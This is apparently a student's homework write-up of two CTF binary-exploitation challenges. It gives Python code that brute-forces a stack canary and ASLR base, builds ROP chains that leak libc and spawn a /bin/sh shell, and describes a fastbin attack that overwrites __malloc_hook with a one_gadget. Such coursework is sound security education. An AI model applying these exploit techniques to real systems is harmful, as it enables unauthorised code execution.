 # Computer Security Hw0x08 Writeup
* Realname: 胡安鳳
* ID on course web: alfons0329
* Student ID: R08922024
###### tags: `Computer Security` `NTU CS` `CS` `CTF` `Writeup`

## EDU 2019 Election (pwn ROP chain) 

* In this problem, we can see that all the protection mechanism has been turned on unlike casino++!

* Primitive approach: [attack canary](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary-zh/)

### Step 1: Leaking the Canary and ASLR base address with bruteforce 
* Since there is no out-of bound solution due to the strict boundary checking in the `voting` function, we must bypass the canary with brute force as well as the runtime ASLR base.

```python
def hack_canary_ASLR():
    canary = ''
    canary_offset = 0xb8
    guess = 0

    buf = ''
    buf += '\x87' * canary_offset

    r.sendlineafter('>', '2')
    r.sendlineafter('token: ', buf)

    while len(canary) < 8:
        while guess <= 0xff:

            r.sendlineafter('>', '1')
            r.sendthen('Token: ', buf + chr(guess))

            check = r.recvline()
            if 'Invalid' not in check:
                canary += chr(guess)
                buf += chr(guess)
                guess = 0

                # logout
                r.sendlineafter('>', '3')
                break

            guess += 1

```
### Step 2: Store the ROP chain in token for leaking the base of LIBC
* From the memory frame, we may store the ROP chain in `char token[0xb8]` under the main function. 
![](https://i.imgur.com/LhKoZPZ.jpg)
* With `pop r14, pop r15, ret` ROPGadget, pop 2 unnecessary variable out and we may step into the ROP chain!
![](https://i.imgur.com/oOwBzOV.png)
* And it is successfully leaked. 
![](https://i.imgur.com/DkBF4xg.png)
Moreover, we should chain ROP with address of `main` make it return to main function for further exploitation of sending `system([/bin/sh])` payload again. 

### Step 3: Repeat the same process for sending `system([/bin/sh])` payload and PWN it!
* ![](https://i.imgur.com/mWawi6u.png)


### Some pitfalls to avoid
* In step 2, I encountered the **unaligned stack corruption** the same as `TA yuawn` demoed in `Lab0x04/bof or` in class, so I added one pure `ret` in front of my ROPChain, just as `TA yuawn` said.
```python
def rop_libc_base(canary, base):
    p = ''
    # fix stack unalignment
    ret = base + 0x906
    p += p64(ret)

    # 0x00000000000011a3 : pop rdi ; ret: to get rdi
    pop_rdi = base + 0x11a3
    p += p64(pop_rdi)

    # 0x201fe0 <__libc_start_main@GLIBC_2.2.5>, assign this to rdi
    libc_start_main = base + 0x201fe0
    p += p64(libc_start_main)

    # puts(libc_start_main)
    puts = base + offset_puts
    p += p64(puts)

    # return to main function
    addr_main = base + 0xffb
    p += p64(addr_main)
```
Ref linkes of 16bytes alignment issue in x86-64 syscall [link1](https://reverseengineering.stackexchange.com/questions/21503/unexpected-segfault-when-theres-apparently-nothing-that-would-cause-it), [link2](https://www.xmcve.com/2019/05/%E5%9C%A8%E4%B8%80%E4%BA%9B64%E4%BD%8D%E7%9A%84glibc%E7%9A%84payload%E8%B0%83%E7%94%A8system%E5%87%BD%E6%95%B0%E5%A4%B1%E8%B4%A5%E9%97%AE%E9%A2%98/)

* But in the final part of payload for `system([/bin/sh])`, add such method will cause strange fail `crashed in (movaps)`, so just deprecate it.

![](https://i.imgur.com/UWfLdVK.png)
```python
def rop_shell(canary, base, libc_base):
    p = ''

    pop_rdi = base + 0x11a3
    p += p64(pop_rdi)

    bin_sh = libc_base + offset_binsh
    p += p64(bin_sh)

    system = libc_base + offset_system
    p += p64(system)
```

* During sending the payload, and inevitably overwrite the data of rbp. However, we cannot overwrite rbp with arbitrary value like the following picture with 0x8787878787878787. 
![](https://i.imgur.com/53ZzbC2.png)
![](https://i.imgur.com/xfdikpd.png) (Error: Cannot access memory at 0x8787878787878787)
    * Thus we may store the value of rbp somewhere in the `.bss` section and we're good when we tried to pop something to rbp.
    ![](https://i.imgur.com/O4wf5B4.png)
    --> fix as follow `rbp = base + 0x202000
    rbp = p64(rbp)`

## Note++ (pwn heap)

### Step 1: Use unsorted bin to leak the libc base.
* There is an overflow point if we allocate size 0 for Note, due to `unsigned int` type, the message of note can be arbitrary long, thus bypass the checking of `size > 0x78` and make a chunk for the size of unsorted bin.
![](https://i.imgur.com/VprUZKD.png)

* And we have unsorted bin for leaking libc_base.
![](https://i.imgur.com/1tNASRA.png)

### Step 2: Use fastbin attack to create space for fake chunk
* Create the fastbin chain.

![](https://i.imgur.com/29qXK3z.png)

![](https://i.imgur.com/KWhCOjX.png)

### Step 3: Write one_gadget payloads into `__malloc_hook` 
* Don't forget to shift 0x13 to padding for 0x7f, i.e. **the legal size header for fastbin!**.

![](https://i.imgur.com/MA8Wt2M.png)

* Choose one gadget.
```
0xf02a4 execve("/bin/sh", rsp+0x50, environ)
[rsp+0x50] == NULL
```

* PWN while error message is generated!

![](https://i.imgur.com/kkxtzL2.png)

* Finally flag!
![](https://i.imgur.com/p8FlKLg.png)

### Some pitfalls to avoid.
* Must malloc the size that can round up to 0x70 for fake chunk exploit.
    * Reason: In the fake memory chunk for exploiting `__malloc_hook`, by shifting `- 0x13`, we get `0x0000007f` as the chunk size header, which is legal for fast bin. Other than 0x7f, the final allocation for one_gadget will crashed.

![](https://i.imgur.com/jBA07KQ.png)

![](https://i.imgur.com/AWiuc3G.png)



